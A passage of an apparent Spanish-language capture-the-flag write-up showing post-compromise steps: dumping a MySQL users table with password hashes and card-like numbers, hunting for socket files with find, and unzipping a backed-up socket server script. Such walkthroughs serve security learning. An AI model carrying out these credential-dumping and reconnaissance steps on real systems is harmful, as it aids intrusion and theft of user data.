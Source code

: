 Migramos de base de datos:
```bash
mysql> use web_app;
```

Listamos las tablas:
```bash
show tables;
+-------------------+
| Tables_in_web_app |
+-------------------+
| users             |
+-------------------+
```

Hashes de los usuarios que no sirven de mucho:
```bash
select * from users;
+----+----------+--------------------------------------------------------------+-------+---------------------+------------------+
| id | username | password                                                     | role  | created_at          | numero           |
+----+----------+--------------------------------------------------------------+-------+---------------------+------------------+
| 27 | manager  | $2y$10$py7mPxnc51tgz7ZSzgGomOcdM9S2ef7sApwL5Ak.XcmyTJPLO43rW | admin | 2025-05-12 20:11:46 | 5597527595641235 |
| 28 | test     | $2y$10$dihlI.Fubof.NnCOyHrfIehUQKJ6Jdi1Lf4AJshxIhaGEjUVy3/x6 | user  | 2025-06-22 23:32:08 | 5032720792366351 |
+----+----------+--------------------------------------------------------------+-------+---------------------+------------------+
```

Ahora buscaremos por archivos en la carpteta **tmp** y tenemos lo siguiente: Un archivo **SUID**
```bash
srwxrwxrwx 1 juan juan 0 Jun 9 08:52 dev.sock
```

Ahora usamos este comando para filtrar por archivos que tengan que ver con **sock**
```bash
find / \( -path /usr -o -path /proc \) -prune -o -name "sock*" -print 2>/dev/null
```

Tenemos esta ruta:
```bash
/var/backups/socket.zip
```

Ahora descomprimimos el archivo:
```bash
unzip /var/backups/socket.zip
Archive:  /var/backups/socket.zip
  inflating: home/juan/socket_server.py
```

ahora vemos el contenido:
```bash
cat /tmp/home/juan/socket_server.py
```
